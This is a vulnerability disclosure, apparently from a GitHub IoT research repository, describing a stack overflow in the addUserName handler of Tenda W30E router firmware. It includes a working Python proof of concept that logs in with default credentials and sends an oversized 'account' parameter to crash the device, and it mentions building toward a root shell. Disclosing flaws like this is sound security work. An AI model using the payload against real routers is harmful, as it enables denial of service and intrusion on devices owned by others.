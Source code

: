 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/addUserName/img/2.png)

In /goform/addUserName, account will be added to v12 by strcat. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'account=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/addUserName/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell


